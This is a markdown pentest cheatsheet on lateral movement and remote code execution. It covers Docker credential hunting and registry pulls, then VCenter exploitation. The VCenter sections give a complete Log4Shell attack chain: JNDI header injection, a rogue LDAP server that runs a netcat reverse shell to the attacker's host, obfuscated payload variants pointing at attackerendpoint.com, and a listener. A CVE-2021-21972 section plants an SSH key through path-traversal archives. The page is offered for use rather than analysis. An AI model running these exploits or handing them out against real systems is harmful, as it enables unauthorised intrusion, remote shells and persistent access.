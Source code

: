 ```yaml
---
layout: post
title: move / rce 2
category: move
parent: cheatsheets
modified_date: 2024-11-28
permalink: /move/rce2
---
```


**Mitre Att&ck Entreprise**: 
* [TA0006 - Credentials Access](https://attack.mitre.org/tactics/TA0006/)
* [T1021  - Remote Services](https://attack.mitre.org/techniques/T1021/)

**Menu**
<!-- vscode-markdown-toc -->
* [docker](#docker)
	* [administration](#administration)
	* [grype-vuln-scan-with-scan](#grype-vuln-scan-with-scan)
	* [java-maven-applications](#java-maven-applications)
	* [jdbc-client](#jdbc-client)
	* [unsecure-azure-registry](#unsecure-azure-registry)
* [sambacry](#sambacry)
* [vcenter](#vcenter)
	* [CVE-2021-44228-VCenter](#CVE-2021-44228-VCenter)
	* [CVE-2021-44228-VCenter](#CVE-2021-44228-VCenter-1)
	* [CVE-2021-21972-VCenter](#CVE-2021-21972-VCenter)
* [rshell](#rshell)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

[](assets/images/pen-ta0007-discov-t1046-scan-net-svc.png)


## <a name='docker'></a>docker

!! MUST TO READ :
- [PayloadAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Methodology%20and%20Resources/Container%20-%20Docker%20Pentest/#summary)
- [infosecwriteups - attacking-and-securing-docker-containers](https://infosecwriteups.com/attacking-and-securing-docker-containers-cc8c80f05b5b)

### <a name='administration'></a>administration
```
docker system info
ls -alps /var/lib/docker
docker inspect | jq 
```

### <a name='grype-vuln-scan-with-scan'></a>grype-vuln-scan-with-scan

```bash
grype <image> -o template -t ~/path/to/csv.tmpl
cut -f3 -d"," grivy_output.csv > /tmp/mycve.txt
while read cve; do toto=`echo $cve | tr -d \"`; grep -i $toto /usr/share/exploitdb/files_exploits.csv; done < /tmp/mycve.txt
```

Here's what the csv.tmpl file might look like:
```bash
"Package","Version Installed","Vulnerability ID","Severity"
```

### <a name='java-maven-applications'></a>java-maven-applications 
```
# extract application
jar xf app.jar

# find Spring properties files
find . -iname "*.properties"
find -iname "*.properties" -print | xargs grep -r "://"
find -iname "*.properties" -print | xargs grep -r "jdbc.*://"
find -iname "*.properties" -print | xargs grep -r "postgresql://"
```

### <a name='jdbc-client'></a>jdbc-client
```
alias jaqy='java -Dfile.encoding=UTF-8 -Xmx256m -jar ~/jaqy-1.2.0.jar'
jaqy

# jdbc:teradata
.protocol teradata com.teradata.jdbc.TeraDriver
.classpath teradata lib/terajdbc4.jar
.open -u dbc -p dbc teradata://127.0.0.1

# jdbc:postgresql
.protocol postgresql org.postgresql.driver
.classpath postgresql lib/postgresql-42.5.3.jar
.open -u dbc -p dbc postgresql://127.0.0.1
```

### <a name='unsecure-azure-registry'></a>unsecure-azure-registry
```
curl -s -k --user "USER:PASS" https://registry.azurecr.io/v2/_catalog | jq '.repositories'
curl -s -k --user "USER:PASS" https://registry.azurecr.io/v2/<image_name>/tags/list | jq '.tags'
podman pull --creds "USER:PASS" registry.azurecr.io/<image_name>:<tag>
```

- [https://aex.dev.azure.com/me?mkt=en-US](https://aex.dev.azure.com/me?mkt=en-US)

## <a name='sambacry'></a>sambacry

* CVE ID : CVE-2017-7494
* Date: 01/06/2017
* Snort rules : [ptresearch github](https://github.com/ptresearch/AttackDetection/blob/master/CVE-2017-7494/CVE-2017-7494.rules)
 
▶️ PLAY :
![Pentest Linux Sambacry](/assets/images/pen-lin-smb-rce-2017-7494_1.png)
![Pentest Linux Sambacry](/assets/images/pen-lin-smb-rce-2017-7494_2.png)
![Pentest Linux Sambacry](/assets/images/pen-lin-smb-rce-2017-7494_3.png)
![Pentest Linux Sambacry](/assets/images/pen-lin-smb-rce-2017-7494_4.png)

## <a name='vcenter'></a>vcenter

* service-port   : 
* service-process: 
* artifacts      : 

### <a name='CVE-2021-44228-VCenter'></a>CVE-2021-44228-VCenter

```bash
# install
git clone https://github.com/veracode-research/rogue-jndi.git
apt install default-jdk
apt install java-common
apt install java-package

# check if Vcenter version is vulnerable
curl -ski https://1.2.3.4/ui/login | grep Location

# tmux windows 0 splitting
Ctrl-b %
Ctrl-b ->
Ctrl-b "

## cmds to run consequently in tmux windows 1, 2 and 3 

# HOOK STEP 1: rogue CURL query that hook VCenter to make an LDAP query 
curl --insecure  -vv -H "X-Forwarded-For: \${jndi:ldap://1.1.1.1:1389/o=tomcat}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

# HOOK STEP 2: run a rogue LDAP server that hook VCenter, executing netcat back to us 
sudo java -jar target/RogueJndi-1.1.jar --command "nc -e /bin/bash 1.1.1.1 4242" --hostname "1.1.1.1"

# CHECK: 1/ the LDAP, and 2/ the netcat, hooks come back
sudo tcpdump -ni eth0 host 1.2.3.4

# tmux windows 1 splitting
Ctrl-b c
Ctrl-b %
Ctrl-b ->
Ctrl-b "

# REVERSE SHELL: 
nc -lvnp 4242
```

### <a name='CVE-2021-44228-VCenter-1'></a>CVE-2021-44228-VCenter
```bash
# install

# HOOK STEP 1: rogue CURL query that hook VCenter to make an LDAP query 
curl --insecure  -vv -H "X-Forwarded-For: \${jndi:ldap://1.1.1.1:1389/o=tomcat}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

curl --insecure  -vv -H "X-Forwarded-For: \${\${env:ENV_NAME:-j}ndi\${env:ENV_NAME:-:}\${env:ENV_NAME:-l}dap\${env:ENV_NAME:-:}//1.1.1.1:1389/}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

curl --insecure  -vv -H "X-Forwarded-For: \${\${::-j}\${::-n}\${::-d}\${::-i}:\${::-l}\${::-d}\${::-a}\${::-p}://1.1.1.1:1389/}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

curl --insecure  -vv -H "X-Forwarded-For: \${\${lower:j}ndi:\${lower:l}\${lower:d}a\${lower:p}://1.1.1:1389/}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/}
```

### <a name='CVE-2021-21972-VCenter'></a>CVE-2021-21972-VCenter
```bash
sudo python3 CVE-2021-21972.py -t 1.2.3.3 -f /root/.ssh/id_rsa.pub -p /home/vsphere-ui/.ssh/authorized_keys -o unix
git clone https://github.com/ptoomey3/evilarc.git
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar home/vsphere-ui/.ssh
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar home/vsphere-ui/.ssh/id_rsa.pub
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar /home/vsphere-ui/.ssh/id_rsa.pub
python evilarc.py -d 5 -p '/home/vsphere-ui/.ssh' -o unix -f linexpl.tar /home/vsphere-ui/.ssh/id_rsa.pub
cd ../CVE-2021-21972/
sudo python3 CVE-2021-21972.py -t 1.2.3.3
python3 CVE-2021-21972.py -t 1.2.3.3
python3 CVE-2021-21972.py -t 1.2.3.4
```

## <a name='rshell'></a>rshell
[database](https://shell-storm.org/shellcode/index.html)
```sh
# run bash via python
python -c 'import pty; pty.spawn("/bin/bash")'
```
